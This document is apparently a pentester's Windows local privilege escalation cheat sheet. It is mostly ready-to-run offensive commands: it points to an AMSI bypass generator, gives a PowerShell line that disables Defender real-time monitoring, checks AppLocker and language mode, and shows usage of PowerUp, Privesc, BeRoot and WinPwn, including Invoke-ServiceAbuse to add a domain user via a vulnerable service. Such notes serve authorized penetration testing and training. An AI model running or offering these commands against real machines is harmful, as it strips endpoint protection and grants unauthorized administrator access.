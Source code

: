 # Local Privilege Escalation

## **Misc**

**AMSI Bypass**\
****amsi.fail

**Disable AV Protection/Monitoring**\
Set-MpPreference -DisableRealtimeMonitoring $true

**Check Powershell Language Mode**\
$ExecutionContext.SessionState.LanguageMode

**AppLocker Policy**\
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections



## PrivEsc Scripts

{% embed url="https://github.com/enjoiz/Privesc" %}

. .\privesc.ps1\
Invoke-PrivEsc

{% embed url="https://github.com/AlessandroZ/BeRoot./beRoot.exe" %}

./beroot.exe

{% embed url="https://github.com/HarmJ0y/PowerUp" %}

```
. ./powerup
Invoke-allchecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<username>'
```

{% embed url="https://github.com/S1ckB0y1337/WinPwn" %}
